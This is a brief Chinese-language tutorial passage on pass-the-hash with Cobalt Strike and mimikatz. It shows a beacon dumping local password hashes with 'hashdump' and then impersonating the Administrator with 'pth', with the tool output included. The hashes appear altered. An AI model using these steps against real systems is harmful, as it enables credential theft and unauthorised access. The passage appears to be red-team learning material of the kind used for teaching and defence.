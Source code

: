 ### 密码哈希

使用 mimikatz 获取密码哈希

```
pth DOMAIN\user ntlmhash
```

如何工作的？

1、mimikatz 使用登录令牌开启了一个进程，在单点登录信息那里填入我们提供的用户名称、域、密码哈希值

2、cobalt strike 自动的从那个进程中窃取令牌并关闭

首先使用 `hashdump` 获取用户的密码哈希值，这里的 beacon 会话为 SYSTEM 权限。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Daniel:1000:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
TeamsSix:1002:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```

使用 `pth` 获取信任

```powershell
beacon> pth TEAMSSIX\Administrator 12cb161bvca930994x00cbc0aczf06d1
[+] host called home, sent: 23 bytes
